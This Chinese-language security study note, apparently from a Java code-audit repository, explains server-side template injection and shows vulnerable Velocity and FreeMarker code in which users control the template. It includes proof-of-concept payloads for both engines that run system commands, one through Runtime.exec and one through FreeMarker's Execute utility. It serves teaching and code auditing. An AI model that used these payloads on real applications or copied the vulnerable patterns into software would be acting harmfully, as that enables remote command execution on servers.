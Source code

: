 # 模板注入（SSTI）

## 0x00 Introduction
SSTI 就是服务器端模板注入（Server-Side Template Injection）

模板注入（SSTI）和SQL注入，命令注入一样都是都是非法的参数传入造成的安全问题，区别在于，SQL注入是参数到sql语句执行处，命令注入是到命令执行函数处，而模板注入则是到了模板渲染处触发漏洞。
起因在于现代Web应用MVC架构的中，动态渲染前端代码，所以不同的语言，不同的前端模板会存在不同的问题。

Java常见的引擎：Velocity,FreeMarker,Jade...

## 0x01 漏洞模式&危险函数

漏洞点更多在于后台模板管理中，可以自定义模板文件导致SSTI漏洞。

模板注入方式: 
1. 直接注入：直接注入模板文本中的变量和数据，以生成动态页面和其他交互式 Web 应用程序。这是最常见的注入方式，也是最简单的注入方式。
2. 模板引用注入：使用模板引用来注入模板文本中的变量和数据，以生成动态页面和其他交互式 Web 应用程序。这种方式可以在模板中使用变量和数据，而不必将它们直接注入到模板中。
3. 数据绑定注入：使用数据绑定技术，将数据与模板中的变量进行绑定，以生成动态页面和其他交互式 Web 应用程序。这种方式可以将数据与模板中的变量进行绑定，以便在模板中使用这些数据。

### Velocity

#### 语法
- [Velocity中文文档](https://wizardforcel.gitbooks.io/velocity-doc/content/1.html)

#### 危险函数

- 推荐阅读： [白头搔更短，SSTI惹人心！](https://xz.aliyun.com/t/7466)，其中会有漏洞分析。

`org.apache.velocity.app.Velocity.evaluate()`     
案例，模板template参数可控。
```java
private static void velocity(String template){
    Velocity.init();

    VelocityContext context = new VelocityContext();

    context.put("author", "Elliot A.");
    context.put("address", "217 E Broadway");
    context.put("phone", "555-1337");

    StringWriter swOut = new StringWriter();
    //使用Velocity，template参数可控
    Velocity.evaluate(context, swOut, "test", template);
}
```

poc:
```
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc.exe")
```
### FreeMarker

#### 语法

- [在线手册](http://freemarker.foofun.cn/)


#### 危险函数


FreeMarker直接渲染用户输入payload会被转码而失效，所以一般的利用场景为上传或者修改模版文件。

`freemarker.template.Template.process()`

案例，模板文件可控。   
```java
public String freemarker() throws IOException, TemplateException {
    Configuration configuration = new Configuration(Configuration.VERSION_2_3_23);
    configuration.setClassForTemplateLoading(this.getClass(), "/templates");
    Template template = configuration.getTemplate("test.ftl");

    Map<String, Object> rootMap = new HashMap<String, Object>();
    rootMap.put("username", "passwd");
    StringWriter stringWriter = new StringWriter();
    template.process(rootMap, stringWriter);
    return stringWriter.toString();
}
```
poc:
```
<#assign ex="freemarker.template.utility.Execute"?new()>${ ex("id") }
```

## Ref

- https://xz.aliyun.com/t/7466
- https://github.com/proudwind/javasec_study/blob/master/java%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1-ssti.md
- https://developer.aliyun.com/article/1235808